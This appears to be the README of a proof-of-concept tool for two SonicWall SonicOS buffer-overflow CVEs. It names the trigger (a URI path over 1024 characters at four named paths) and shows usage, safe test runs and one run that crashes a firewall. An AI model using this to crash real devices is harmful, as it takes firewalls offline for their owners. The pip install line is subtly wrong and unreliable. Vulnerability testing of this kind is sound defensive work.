

# SonicWall NGFW CVE-2022-22274 & CVE-2023-0656



On March 24, 2022, SonicWall released an [advisory](https://psirt.global.sonicwall.com/vuln-detail/SNWLID-2022-0003) with the following details:

> A Stack-based buffer overflow vulnerability in the SonicOS via HTTP request allows a remote unauthenticated attacker to cause Denial of Service (DoS) or potentially results in code execution in the firewall.

> NOTE: This vulnerability ONLY impacts the "web management" interface, the SonicOS SSLVPN interface is not impacted.

On March 2, 2023, SonicWall released another, similar, [advisory](https://psirt.global.sonicwall.com/vuln-detail/SNWLID-2023-0004):

> A Stack-based buffer overflow vulnerability in the SonicOS allows a remote unauthenticated attacker to cause Denial of Service (DoS), which could cause an impacted firewall to crash.

> NOTE: This vulnerability ONLY impacts the "web management" interface, the SonicOS SSLVPN interface is not impacted.

Both issues are related to the same vulnerable code pattern and use the same exploit payload, but are triggered at different URI paths.

## Description

The buffer overflow is triggered via an HTTP request with a URI path longer than 1024 characters. CVE-2022-22274 can be exploited at `/resources/` or at the Advanced Threat Protection URI path (`/atp/` if enabled or `//` if disabled). CVE-2023-0656 can be exploited at `/stats/` or `/Security_Services`.

This repository contains a proof-of-concept script to test a target for exploitability at all four URI paths. It performs a safe test by default, but has the ability to exploit the bugs and crash the target as well.

*NOTE: In its default configuration, 3 consecutive crashes within a short period of time will cause SonicOS to reboot the device into debug mode and it will be unreachable until an administrator brings it back online. Use responsibly!*

## Usage

Install Python 3 and run `python -m pip install -y argparse`.

```
usage: poc.py [-h] [-t] [-x {1,2,3,4,5}] [-s] target

positional arguments:
  target                hostname[:port] (port defaults to 443)

options:
  -h, --help            show this help message and exit
  -t, --test            safely test for vulnerability (default action)
  -x {1,2,3,4,5}, --exploit {1,2,3,4,5}
                        exploit the target (trigger a crash). 1=/resources/ 2=// 3=/atp/ 4=/stats/ 5=/Security_Services
  -s, --skip-header-check
                        skip initial check for SonicWALL response header
```

## Examples

Test a vulnerable target:

```
$ ./poc.py 192.168.50.29
[*] Checking https://192.168.50.29:443
[+] Confirmed target is running SonicOS
[*] Testing CVE-2022-22274 at /resources/
[+] Target looks vulnerable! (redirected)
[*] Testing CVE-2022-22274 at //
[+] Target looks vulnerable! (redirected)
[*] Testing CVE-2022-22274 at /atp/
[-] Target does not appear to be affected (HTTP 404)
[*] Testing CVE-2023-0656 at /stats/
[+] Target looks vulnerable! (redirected)
[*] Testing CVE-2023-0656 at /Security_Services
[+] Target looks vulnerable! (redirected)
```

Exploit a vulnerable target:

```
$ ./poc.py -x 1 192.168.50.29
[*] Checking https://192.168.50.29:443
[+] Confirmed target is running SonicOS
[*] Triggering exploit at /resources/
[+] Exploit succeeded! (target unavailable)
```

Test and exploit a patched target:

```
$ ./poc.py -tx 4 192.168.50.31
[*] Checking https://192.168.50.31:443
[+] Confirmed target is running SonicOS
[*] Testing CVE-2022-22274 at /resources/
[-] Target appears to be patched (empty response)
[*] Testing CVE-2022-22274 at //
[-] Target appears to be patched (empty response)
[*] Testing CVE-2022-22274 at /atp/
[-] Target does not appear to be affected (HTTP 404)
[*] Testing CVE-2023-0656 at /stats/
[-] Target appears to be patched (empty response)
[*] Testing CVE-2023-0656 at /Security_Services
[-] Target appears to be patched (empty response)
[*] Triggering exploit at /stats/
[-] Exploit failed (target responded)
```

## License

This project is licensed under the [GNU GPL 3.0](LICENSE) license.
